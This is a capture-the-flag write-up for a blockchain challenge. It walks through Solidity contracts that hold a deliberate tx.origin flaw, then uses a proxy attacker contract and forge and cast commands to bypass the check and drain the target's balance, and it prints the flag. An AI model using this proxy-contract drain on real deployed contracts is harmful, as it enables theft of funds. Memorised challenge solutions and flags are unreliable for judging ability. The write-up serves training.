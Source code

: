 # Distract and Destroy

### CHALLENGE DESCRIPTION
**_After defeating her first monster, Alex stood frozen, staring up at another massive, hulking creature that loomed over her. She knew that this was a fight she couldn't win on her own. She turned to her guildmates, trying to come up with a plan. "We need to distract it," Alex said. "If we can get it off balance, we might be able to take it down." Her guildmates nodded, their eyes narrowed in determination. They quickly came up with a plan to lure the monster away from their position, using a combination of noise and movement to distract it. As they put their plan into action, Alex drew her sword and waited for her chance._**

## Solution

**STEP 1: Code reviewing**

There we have 2 Solidity files similar to `Survival of the Fittest` codes:

>**`Setup.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 1000;
    }

    function attack(uint256 _damage) external {
        if (aggro == address(0)) {
            aggro = msg.sender;
        }

        if (_isOffBalance() && aggro != msg.sender) {
            lifePoints -= _damage;
        } else {
            lifePoints -= 0;
        }
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _isOffBalance() private view returns (bool) {
        return tx.origin != msg.sender;
    }
}
```

Here you can see some differences from the `Survival of the Fittest` files, such as `_isOffBalance()` and `aggro`. To kill the enemy, we need to bypass these conditions.


**STEP 2: The Bypass**

Take a look to the `_isOffBalance()` function. 

```
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

Let`s deploy a contract to avoid this.

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface ICreature {
    function attack(uint256 _damage) external;
}

contract Attacker {
    ICreature target;

    constructor(address _target) {
        target = ICreature(_target);
    }

    function attack(uint256 _damage) external {
        target.attack(_damage);
    }
}
```

We need to deploy it to distract enemy.

Deploying via `forge`:

```
forge create src/Attacker.sol:Attacker --rpc-url http://IP:PORT/rpc --private-key $PRIVATE_KEY --constructor-args $TARGET_ADDRESS
```

![image](https://github.com/luvranse/web3/assets/46570641/30965871-2205-41cb-8e07-8e7bee8417da)


**STEP 3: The Battle**

Initiate an attack via `cast` with one of our contracts. Distract the enemy.

```
cast send --rpc-url http://IP:PORT/rpc --private-key $PRIVATE_KEY $TARGET_ADDRESS "attack(uint256)" 1000
```

![image](https://github.com/luvranse/web3/assets/46570641/d417621b-9c19-48eb-a161-216f52c0b59b)

Then attack with deployed one. 

```
cast send --rpc-url http://IP:PORT/rpc --private-key $PRIVATE_KEY $DEPLOYED_ADDRESS "attack(uint256)" 1000
```

![image](https://github.com/luvranse/web3/assets/46570641/cfe7d15c-dd96-4e7c-a96d-454a2bac6854)

Let's try take a loot. 

```
cast send --rpc-url http://IP:PORT/rpc --private-key $PRIVATE_KEY $TARGET_ADDRESS "loot()"
```

![image](https://github.com/luvranse/web3/assets/46570641/f551402d-c47d-4b4d-87f2-c440b85f9b50)

Congratz! There is the flag!

![image](https://github.com/luvranse/web3/assets/46570641/f895087e-50f5-404e-bd6b-5cf0580cf372)

### FLAG

```
HTB{tx.0r1gin_c4n_74k3_d0wn_4_m0n5732}
```

